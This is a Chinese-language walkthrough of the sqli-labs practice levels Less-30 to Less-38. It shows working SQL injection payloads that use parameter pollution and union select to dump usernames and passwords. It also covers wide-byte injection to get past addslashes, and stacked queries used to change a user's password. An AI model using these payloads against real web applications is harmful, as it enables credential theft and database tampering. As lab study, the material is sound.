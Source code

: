 ## Less-30

这关与less-29没啥区别，就多了"$id"闭合方式，**没有报错回显**

```php
Less-30/?id=1&id=-2" union select 1,2,(select group_concat(username,0x7e,password) from users)–+
```

## Less-31

这关也一样，多了("$id")闭合方式，**增加报错回显**，直接上payload：

```php
Less-31/?id=1&id=-2)" union select 1,2,(select group_concat(username,0x7e,password) from users)–+
```

## Less-32~37（都与addslashes这类函数相关，可以选择宽字节注入）

 关于魔术引号、addslashes的防御以及绕过参考此文章：[魔术引号、addslashes和mysql_real_escape_string的防御以及绕过_罹殇的技术博客_51CTO博客](https://blog.51cto.com/wt7315/1931667)

## Less-38 stacked Query（堆叠注）

详细的堆叠注入见[1、 SQL注入总结](https://www.yuque.com/uf9n1x/websec/cz92kq#9bc35c24)

我们正常查询，因为是堆叠注入，那么我们使用分号，来执行两条命令，我们修改dumb的密码试试

![img](assets/1666786232519-72e56adb-d192-472d-95af-4bed8ca7591d.png)

使用单引号将1闭合

![img](assets/1666786273171-a97c4624-6948-43d6-826d-55c4b34f8486.png)
